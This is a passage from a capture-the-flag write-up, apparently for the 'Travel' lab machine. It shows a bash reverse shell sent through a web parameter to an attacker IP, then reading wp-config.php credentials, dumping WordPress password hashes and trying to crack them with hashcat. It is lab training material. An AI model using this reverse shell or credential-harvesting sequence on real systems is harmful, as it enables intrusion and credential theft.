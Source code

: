 The system command `whoami` gets executed and command execution is proofed, so lets start a reverse shell:
```
GET /wp-content/themes/twentytwenty/logs/test.php?cmd=bash -c 'bash -i >& /dev/tcp/10.10.14.6/9001 0>&1'
```

After URL-encoding the request and sending it, the listener on my IP and port 9001 starts a reverse shell as _www-data_.

## Privilege Escalation

The IP address of this box is 172.30.0.10, the hostname is _blog_ and there are no home folders.
In the root directory is the folder _.dockerenv_ which means that this is a container.

The file _/var/www/html/wp-config.php_ contains credentials for the **MySQL database**:
```
/** The name of the database for WordPress */
define( 'DB_NAME', 'wp' );

/** MySQL database username */
define( 'DB_USER', 'wp' );

/** MySQL database password */
define( 'DB_PASSWORD', 'fiFtDDV9LYe8Ti' );
```

Login into the database:
```
mysql -u wp -p
```

Enumerating the database:
```
MariaDB [(none)]> show databases;
MariaDB [(none)]> use wp;
MariaDB [wp]> show tables;
MariaDB [wp]> select user_login, user_pass from wp_users;

+------------+------------------------------------+
| user_login | user_pass                          |
+------------+------------------------------------+
| admin      | $P$BIRXVj/ZG0YRiBH8gnRy0chBx67WuK/ |
+------------+------------------------------------+
```

Trying to crack the password hash with **Hashcat**:
```
hashcat -m 400 travel_mysql.hash /usr/share/wordlists/rockyou.txt
```

It does not get cracked.

There is a file _/opt/wordpress/backup-13-04-2020.sql_ that contains another password hash at the end of the file for the user _lynik-admin_:
```
(1,'admin','$P$BIRXVj/ZG0YRiBH8gnRy0chBx67WuK/','admin','admin@travel.htb','http://localhost','2020-04-13 13:19:01','',0,'admin')
(2,'lynik-admin','$P$B/wzJzd3pj/n7oTe2GGpi5HcIl4ppc.','lynik-admin','lynik@travel.htb','','2020-04-13 13:36:18','',0,'Lynik Schmidt');
```
